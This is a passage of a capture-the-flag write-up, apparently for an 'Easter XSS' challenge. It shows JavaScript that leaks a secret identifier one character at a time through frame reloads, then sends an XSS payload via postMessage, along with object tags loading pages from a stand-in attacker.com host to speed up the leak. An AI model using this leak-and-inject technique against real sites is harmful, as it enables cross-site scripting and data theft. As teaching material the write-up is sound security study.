 ```html
    }else{
        // try next character
        cur_char += 1;
    }
    // update sessionStorage, change challenge's URL fragment to check next
    // characters, and reload the window to trigger onload event again and again
    sessionStorage.setItem('current', cur_char);
    top.location = top_url + '#' + cur_identifier + alph[cur_char]
    location.reload();
  }

  // with leaked identifier execute full blown XSS
  function solve(identifier) {
        top.postMessage({
            type: 'waf',
            identifier,
            str: `<iframe onload="alert(/this_is_flag/)">`,
            safe: true
        }, '*')
    }
  
</script>
```

However, this is slow and might take a few minutes to finish (here with a fast connection it takes 30-60 seconds). But if someone submitted a similar solution, it would most likely be accepted. The above code can be accessed here: [easterxss.terjanq.me/naive-solution.html](https://easterxss.terjanq.me/naive-solution.html). 

The overall goal of the challenge was to improve the efficiency of the naive solution. 

## Better loop
Although `location.reload()` was a nice trick to trigger many onload events, it's resource costly. Each reload is rather slow. To fix that, one can use two objects:
```html
<object name=poc data=//attacker.com/poc.html></object>
<object name=xss src=//attacker.com/empty.html onload=XSS></object>
```
and instead of calling `location.reload()` we could call`top.xss.location='//attacker.com/empty.html'` to load a resource from the browser cache very efficently, or even better, load an empty blob which also has the origin `attacker.com`: 
```js
top.xss.location = URL.createObjectURL(new Blob([], { type: 'text/html'}));
```
The above technique should trigger the `onload` event almost instantly. 

## More iframes
Instead of only using `true` and `false` iframes, we could use 36 iframes, each corresponding to a different character in its name, e.g. `i_[character]`. Then calling `top.poc.i_t.location++` leaks the information about the character `t` via redirecting a specific iframe. To make it work we need to tweak the oracle a little bit and use ternary tricks to perform 36 checks. Let's see how this could be done.

